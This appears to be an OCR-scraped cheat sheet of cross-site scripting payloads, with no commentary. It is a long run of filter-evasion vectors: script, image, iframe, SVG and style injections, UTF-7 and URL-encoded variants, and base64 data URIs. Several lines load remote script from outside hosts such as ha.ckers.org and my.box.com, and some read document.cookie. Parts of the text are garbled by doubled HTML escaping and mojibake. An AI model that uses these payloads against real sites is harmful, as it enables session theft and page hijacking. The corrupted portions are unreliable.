 'XSS'\")`&amp;gt; &amp;lt;IMG SRC=javascript&amp;#058;alert(&amp;quot;XSS&amp;quot;)&amp;gt; &amp;lt;IMG SRC=JaVaScRiPt&amp;#058;alert('XSS')&amp;gt; &amp;lt;IMG SRC=javascript&amp;#058;alert('XSS')&amp;gt; &amp;lt;IMG SRC=\"javascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;SCRIPT SRC=http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js&amp;gt;&amp;lt;/SCRIPT&amp;gt; '';!--\"&amp;lt;XSS&amp;gt;=&amp;{()} ';alert(String&amp;#46;fromCharCode(88,83,83))//\';alert(String&amp;#46;fromCharCode(88,83,83))//\";alert(String&amp;#46;fromCharCode(88,83,83))//\\";alert(String&amp;#46;fromCharCode(88,83,83))//--&amp;gt;&amp;lt;/SCRIPT&amp;gt;\"&amp;gt;'&amp;gt;&amp;lt;SCRIPT&amp;gt;alert(String&amp;#46;fromCharCode(88,83,83))&amp;lt;/SCRIPT&amp;gt; ';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//-->&lt;/SCRIPT>">'>&lt;SCRIPT>alert(String.fromCharCode(88,83,83))&lt;/SCRIPT> '';!--"&lt;XSS>=&amp;{()} &lt;SCRIPT SRC=http://ha.ckers.org/xss.js>&lt;/SCRIPT> &lt;IMG SRC="javascript:alert('XSS');"> &lt;IMG SRC=javascript:alert('XSS')> &lt;IMG SRC=javascrscriptipt:alert('XSS')> &lt;IMG SRC=JaVaScRiPt:alert('XSS')> &lt;IMG """>&lt;SCRIPT>alert("XSS")&lt;/SCRIPT>"> &lt;IMG SRC=" &amp;#14;  javascript:alert('XSS');"> &lt;SCRIPT/XSS SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;SCRIPT/SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;&lt;SCRIPT>alert("XSS");//&lt;&lt;/SCRIPT> &lt;SCRIPT>a=/XSS/alert(a.source)&lt;/SCRIPT> \";alert('XSS');// &lt;/TITLE>&lt;SCRIPT>alert("XSS");&lt;/SCRIPT> ¼script¾alert(¢XSS¢)¼/script¾ &lt;META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');"> &lt;IFRAME SRC="javascript:alert('XSS');">&lt;/IFRAME> &lt;FRAMESET>&lt;FRAME SRC="javascript:alert('XSS');">&lt;/FRAMESET> &lt;TABLE BACKGROUND="javascript:alert('XSS')"> &lt;TABLE>&lt;TD BACKGROUND="javascript:alert('XSS')"> &lt;DIV STYLE="background-image: url(javascript:alert('XSS'))"> &lt;DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029"> &lt;DIV STYLE="width: expression(alert('XSS'));"> &lt;STYLE>@im\port'\ja\vasc\ript:alert("XSS")';&lt;/STYLE> &lt;IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"> &lt;XSS STYLE="xss:expression(alert('XSS'))"> exp/*&lt;A STYLE='no\xss:noxss("*//*");xss:&amp;#101;x&amp;#x2F;*XSS*//*/*/pression(alert("XSS"))'> &lt;EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always">&lt;/EMBED> a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e); &lt;SCRIPT SRC="http://ha.ckers.org/xss.jpg">&lt;/SCRIPT> &lt;HTML>&lt;BODY>&lt;?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">&lt;?import namespace="t" implementation="#default#time2">&lt;t:set attributeName="innerHTML" to="XSS&amp;lt;SCRIPT DEFER&amp;gt;alert(&amp;quot;XSS&amp;quot;)&amp;lt;/SCRIPT&amp;gt;">&lt;/BODY>&lt;/HTML> &lt;SCRIPT>document.write("&lt;SCRI");&lt;/SCRIPT>PT SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;form id="test" />&lt;button form="test" formaction="javascript:alert(123)">TESTHTML5FORMACTION &lt;form>&lt;button formaction="javascript:alert(123)">crosssitespt &lt;frameset onload=alert(123)> &lt;!--&lt;img src="-->&lt;img src=x onerror=alert(123)//"> &lt;style>&lt;img src="&lt;/style>&lt;img src=x onerror=alert(123)//"> &lt;object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="> &lt;embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="> &lt;embed src="javascript:alert(1)"> &lt;? foo=">&lt;script>alert(1)&lt;/script>"> &lt;! foo=">&lt;script>alert(1)&lt;/script>"> &lt;/ foo=">&lt;script>alert(1)&lt;/script>"> &lt;script>({0:#0=alert/#0#/#0#(123)})&lt;/script> &lt;script>ReferenceError.prototype.__defineGetter__('name', function(){alert(123)}),x&lt;/script> &lt;script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()&lt;/script> &lt;script src="#">{alert(1)}&lt;/script>;1 &lt;script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')&lt;/script> &lt;svg xmlns="#">&lt;script>alert(1)&lt;/script>&lt;/svg> &lt;svg onload="javascript:alert(123)" xmlns="#">&lt;/svg> &lt;iframe xmlns="#" src="javascript:alert(1)">&lt;/iframe> +ADw-script+AD4-alert(document.location)+ADw-/script+AD4- %2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4- +ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi- %2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi- %253cscript%253ealert(document.cookie)%253c/script%253e “>&lt;s”%2b”cript>alert(document.cookie)&lt;/script> “>&lt;ScRiPt>alert(document.cookie)&lt;/script> “>&lt;&lt;script>alert(document.cookie);//&lt;&lt;/script> foo&lt;script>alert(document.cookie)&lt;/script> &lt;scr&lt;script>ipt>alert(document.cookie)&lt;/scr&lt;/script>ipt> %22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3E ‘; alert(document.cookie); var foo=’ foo\’; alert(document.cookie);//’; &lt;/script>&lt;script >alert(document.cookie)&lt;/script> &lt;img src=asdf onerror=alert(document.cookie)> &lt;BODY ONLOAD=alert(’XSS’)> &lt;script>alert(1)&lt;/script> ">&lt;script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))&lt;/script> &lt;video src=1 onerror=alert(1)> &lt;audio src=1 onerror=alert(1)>
